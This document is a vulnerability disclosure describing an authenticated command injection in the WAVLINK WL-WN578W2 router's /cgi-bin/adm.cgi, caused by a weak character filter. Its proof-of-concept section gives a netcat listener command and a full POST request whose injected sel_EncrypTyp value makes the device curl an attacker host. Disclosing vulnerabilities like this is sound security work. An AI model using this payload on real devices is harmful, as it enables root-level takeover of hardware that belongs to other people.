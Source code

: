 # WAVLINK WL-WN578W2 M78W2\_V221110 Authenticated Command Injection (Filter Bypass in /cgi-bin/adm.cgi)

PS:



1.  QEMU simulation is difficult; use a physical WAVLINK WL-WN578W2 for testing.

2.  **Authenticated access required**: Attackers need valid login credentials (e.g., username/password) to send requests to `/cgi-bin/adm.cgi`, but weak input filters can still be bypassed for command injection.

## Overview

An authenticated command injection vulnerability (with filter bypass) exists in `/cgi-bin/adm.cgi` of WAVLINK WL-WN578W2 (firmware M78W2\_V221110). After logging in, attackers can exploit the weak input filter (only blocks 2 characters: `|`, `` ` ``) to bypass restrictions, then inject arbitrary system commands via the `sel_EncrypTyp` parameter. This enables execution of `root`-level commands, leading to full device compromise.



![Vulnerability Overview: Authenticated Filter Bypass Flow](./imgs/1.png)

## Details



*   **Vendor**: WAVLINK

*   **Vendor Website**: [https://www.wavlink.com/zh\_cn/index.html](https://www.wavlink.com/zh_cn/index.html)

*   **Product**: WAVLINK WL-WN578W2 (wireless range extender)

*   **Firmware**: M78W2\_V221110

*   **Firmware Download**: [https://docs.wavlink.xyz/Firmware\_ch/fm-578w2/](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)

*   **Affected Endpoint**: `/cgi-bin/adm.cgi` (POST method, requires login)

*   **Vulnerable Parameter**: `sel_EncrypTyp`

*   **Vulnerability Type**: Authenticated Command Injection (Filter Bypass)

*   **CVE ID**: Pending

*   **Impact**: After login, execute arbitrary `root` commands (exfiltrate sensitive data, plant backdoors, modify device configurations) via filter bypass.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Analysis

#### 1. Weak Input Filter (Bypassable)

The firmware’s `sub_40A91C` function implements a basic input filter, but only blocks two characters:



*   Blocks `|` (pipe) and `` ` `` (backtick) to prevent simple command injection.

*   Ignores common command separators: `;` (semicolon), `&&` (logical AND), `||` (logical OR), `$(` (command substitution).

    After logging in, attackers can use these allowed separators to bypass the filter and inject malicious commands.




#### 2. Command Injection Vector

After successful login, the `sel_EncrypTyp` parameter (extracted from POST requests via `sub_409184`) is directly concatenated into system commands without additional sanitization. Since the weak filter fails to block key separators, attackers can inject arbitrary commands into `sel_EncrypTyp` (e.g., append `; [malicious command] #`), which are executed with `root` privileges.

![Weak Filter Logic Snippet](./imgs/2.png)
![Weak Filter Logic Snippet](./imgs/3.png)
![Weak Filter Logic Snippet](./imgs/4.png)

## Proof of Concept (PoC)

### PoC

#### 1. Prepare for Exploitation



*   Start a Netcat listener on the attacker machine (IP: 192.168.10.154, Port: 1234) to monitor command execution results:



```
nc -lvnp 1234
```

#### 2. Visit wizard_rep.shtml and Send  POST Request:

Visit wizard_rep.shtml

```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: wifi.wavlink.com
Content-Length: 728
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://wifi.wavlink.com
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://wifi.wavlink.com/wizard_rep.shtml
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

page=wzdrepeater&select=sel2&sel_Automode=WPA2PSK&sel_EncrypTyp=AES;curl http://192.168.10.154:1234#&wlan_ssid=a827&wlan_bssid=34%3A0a%3A98%3A1a%3A6e%3Aac&wlan_signal=100&wlan_channel=9&wlan_index=2&wlan_wepkey=&wepKeyLen0=&format0=&key0=&pskFormat0=0&pskValue0=&ciphersuite0=&wpa2ciphersuite0=&wepKeyLen1=&length1=&format1=&key1=&pskFormat1=&pskValue1=&ciphersuite1=&wpa2ciphersuite1=&submit-url=%2Fcountdown.htm%3Fsettp%3D5&submit-value=&static_en=0&hostname=&skiplist1=12%3B13%3B14%3B&skiplist2=&skiplist3=&manual_pw=&Model=repeater&rep_type=0&web_pskValue=jm912558&wl_rep_ssid2g=a827_EXT&wl_rep_ssid5g=&wl_rep_ssid5g_2=&ssid2g_input=&Channel=&SECURITYMODE=NONE&wl_key=&wl_rep_ssid2=&wl_rep_ssid5=&INPUTTYPE=0&repeater_mode=0
```




#### 3. Verify Command Execution

The Netcat listener receives a request from the device’s IP (e.g., 192.168.10.1), confirming that the injected `curl` command was executed successfully (filter bypass and authenticated command injection work):



![Step 3: Netcat Captures Execution Result](./imgs/5.png)

